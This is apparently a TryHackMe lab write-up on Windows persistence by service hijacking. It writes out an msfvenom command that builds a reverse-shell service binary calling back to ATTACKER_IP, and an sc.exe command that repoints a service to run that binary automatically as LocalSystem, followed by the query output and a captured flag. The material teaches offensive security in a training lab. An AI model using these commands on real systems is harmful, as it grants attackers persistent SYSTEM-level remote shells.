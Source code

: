 There are three things we care about when using a service for persistence:

- The executable (**BINARY_PATH_NAME**) should point to our payload.
- The service **START_TYPE** should be automatic so that the payload runs without user interaction.
- The **SERVICE_START_NAME**, which is the account under which the service will run, should preferably be set to **LocalSystem** to gain SYSTEM privileges.

Let's start by creating a new reverse shell with msfvenom:

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe
```

To reconfigure "THMservice3" parameters, we can use the following command:

```shell-session
C:\> sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
```

You can then query the service's configuration again to check if all went as expected:

```shell-session
C:\> sc.exe qc THMservice3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMservice3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\rev-svc2.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMservice3
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2cbaa6465407d8b45e363f24a33efec6.png)

Start a Metasploit listener on your attacker's machine and manually start the service to receive a reverse shell. From there, run `C:\flags\flag8.exe` to get a flag!


Once we did all that, we will receive a shell:

![](../images/Pasted%20image%2020250515164758.png)

```
C:\flags>.\flag8.exe
THM{IN_PLAIN_SIGHT}
```

# Abusing Scheduled Tasks
----
